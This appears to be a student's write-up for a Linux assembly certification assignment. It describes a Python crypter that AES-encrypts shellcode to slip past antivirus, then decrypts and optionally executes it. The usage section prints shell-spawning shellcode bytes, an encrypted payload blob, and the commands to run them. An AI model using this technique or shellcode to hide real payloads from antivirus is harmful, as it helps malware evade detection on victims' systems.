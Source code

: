 # Assignment #7: Custom crypter

- Create a custom crypter like the one shown in the "crypters" video

- Free to use any existing encryption schema

- Can use any programming language


---------------------------------------------------

## Motivation

The motivation in this last assignment is similar to the one in the Custom encoder and Polymorphic code, to be able to bypass AVs and execute the desired shellcode. In this assignment the encryption chosen is AES-CBC and the programming language is Python after finding out how to execute the shellcode with it and create a binary file from the Python code.


## Usage

- '-k', '--aes_key': *AES key used*.

- '-e', '--encrypt': *Shellcode to encrypt*.

- '-d', '--decrypt': *Encrypted shellcode to decrypt*.

- '-x', '--execute': *Execute the shellcode after decrypting or not*.


### Encryption

```bash
python main.py -e "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd" -k "ricardoricardo11"
```

![Screenshot](images/1.png)


### Decryption

```bash
python main.py -d 7L8lgzzXoM1KnsFbIFOPgY3PPx8K5aM5IT2HC8ULBrhcYvbTr4/ItEVN6DgDuJ7TY0d9isE2IuHTC3hWMa4lzkbc6toFTdOnhzc9v/YwqRe62L+dqZ8XQWFk5VHl9R+Dr7ctq2BCAqmozxKeDGLd7iojztY0fTpcUy8gCu/Z5Rf4f4L5tsBna8epwgmBr6Op0/4S44ZEnbfiIH/QtEYUqw== -k "ricardoricardo11"  -x
```

![Screenshot](images/2.png)

### Binary

Finally, a binary is created using the program *pyinstaller* with the option -F, which has the same functionality than the *main.py* file:

![Screenshot](images/3.png)

---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433

